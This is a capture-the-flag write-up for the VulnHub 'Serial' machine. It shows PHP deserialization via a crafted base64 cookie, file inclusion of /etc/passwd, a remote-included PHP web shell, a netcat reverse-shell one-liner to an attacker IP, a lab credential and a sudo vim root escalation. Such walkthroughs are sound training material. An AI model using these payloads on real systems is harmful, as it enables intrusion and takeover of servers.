<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/serial-1,349/">Serial</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@sk4pwn"> Daniele</a></h4>

## Nmap


hmm....seems like a machine with simple Stuff. Let's start with HTTP

***

## HTTP



Nothing fancy just a simple intro. What we notice is a special `Cookie` named `user` and message also talks about `cookie`. That cookie seemed like a base64 encoded cookie so let's just decode it to see what we find in it.



```python
O:4:"User":2:{s:10:".User.name";s:3:"sk4";s:9:".User.wel";O:7:"Welcome":0:{}}
```
So obviously the very first thing that I would try is to change the name to something like `admin` or `root`.

__For encoding and decoding we can use Burp's decoded__



And then send it with the request in the `user` cookie.

I did that but got `nothing`.



I tried with different names but none of them worked.

While I was doing this I ran `dirsearch` and it found a hidden directory.



When we visit that page we can see a `bak.zip` file.



I downloaded the file and it had 3 other files showing the source of website.

* __user.class.php__

```php
<?php
  include("log.class.php");

  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }

  class User {
    private $name;
    private $wel;

    function __construct($name) {
      $this->name = $name;
      $this->wel = new Welcome();
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
?>
```

* __log.class.php__

```php
<?php
  class Log {
    private $type_log;

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>
```

* __index.php__

```php
<?php
    include("user.class.php");

    if(!isset($_COOKIE['user'])) {
        setcookie("user", base64_encode(serialize(new User('sk4'))));
    } else {
        unserialize(base64_decode($_COOKIE['user']));
    }
    echo "This is a beta test for new cookie handler\n";
?>
```

We can see that when we visit the wesbite we are shown the output present in `index.php` and it generate cookie for user name `sk4`.

If we look at the code in `user.class.php` it's calling the `Welcome` class but the `Log` class from `log.class.php` isn't called anywhere. So this is what I did, I edited the source to call the `Log class`.

To do so edit the `user.class.php` in the following manner

* In the `__construct` function change `$this->wel = new Welcome();` to `$this->wel = new Log();`
* In the end of the file right before `?>` add the following like `echo base64_encode(serialize(new User('admin')));`(you can use anyname you want)

So the code would become

```php
<?php
  include("log.class.php");
  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }
  class User {
    private $name;
    private $wel;
    function __construct($name) {
      $this->name = $name;
      $this->wel = new Log();
    }
    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
echo base64_encode(serialize(new User('admin')));
?>
```
After I ran this code I got a base64 encoded string and some error.



Now if we focus on the error it says that the file to be included couldn't be found. DAMN!!!!!!
This is when it clicked the `log.class.php` is using `include()` to include a file. So If we can give it a file path says `/etc/passwd` and then generate the cookie and use that cookie it should include that file, showing us the content of it(I guess).

So I edited the `log.class.php` by editing the following line

* `private $type_log;` to `private $type_log = "/etc/passwd";`



I used that cookie and BOOM!!! 💥💥💥💥💥



Now we can use RFI to exploit this. First we can run a python server that will have a file containing a shell and then we can include that.

I made a file name `shell` having the following content

```php
<? php
system($_GET['cmd']);
?>
```

Using `python -m http.server` I started the server now we can include that in our code.

```
Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjU6ImFkbWluIjtzOjk6IgBVc2VyAHdlbCI7TzozOiJMb2ciOjE6e3M6MTM6IgBMb2cAdHlwZV9sb2ciO3M6MzA6Imh0dHA6Ly8xOTIuMTY4LjU2LjE6ODAwMC9zaGVsbCI7fX0=
```

I used this cookie and I was able to execute command.



Now we can simply get a shell. I used the OpenBSD netcat format which was URL encoded.

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.56.1%201337%20%3E%2Ftmp%2Ff
```



I started looking around and found `credential.txt.bak` in the `/` dir which had  credential for `sk4` user.



`sk4:KywZmnPWW6tTbW5w`

Now we can use these creds to login via SSH.

***

## Privilege escalation



In the `sk4` directory I found `flag.txt`.



After this I ran the enumeration script to see if there's any SUID or any other interesting thing or not.

The enum script didn't gave anything but I found something good in `sudo` rights.



We can simply start `vim` by running `sudo vim` and then press `:` and execute the command `!bash` to get the root-shell.





Now we can just cat the root flag.



***

This was really nice machine with a very great foothold. Thanks to [@sk4](https://twitter.com/@sk4pwn) for this awesome machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

